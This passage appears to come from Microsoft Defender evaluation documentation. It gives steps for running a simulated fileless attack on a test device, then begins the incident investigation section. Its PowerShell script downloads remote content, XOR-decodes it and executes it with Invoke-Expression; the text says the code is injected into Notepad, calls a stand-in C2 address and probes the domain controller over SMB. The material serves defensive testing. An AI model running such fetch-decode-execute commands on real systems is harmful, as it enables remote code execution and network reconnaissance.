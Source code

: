 If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.


## Run the simulation

To run the attack scenario simulation:

1.	Log in to the test device with the test user account.

2.	Open a Windows PowerShell window on the test device.

3.	Copy the following simulation script:
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
>If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks. Download this document and open it on Adobe Reader.

4. At the prompt, paste and run the copied script.

>[!NOTE]
>If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.  Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.

A few seconds later, <i>notepad.exe</i> will open. A simulated attack code will be injected into notepad.exe. Keep the automatically generated Notepad instance open to experience the full scenario.

The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.

You will see a message displayed on the PowerShell console when this script completes.

```
ran NetSessionEnum against [DC Name] with return code result 0      
```

To see the Automated Incident and Response feature in action, keep the notepad.exe process open. You will see Automated Incident and Response stop the Notepad process.


## Investigate an incident

>[!NOTE]
>Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:

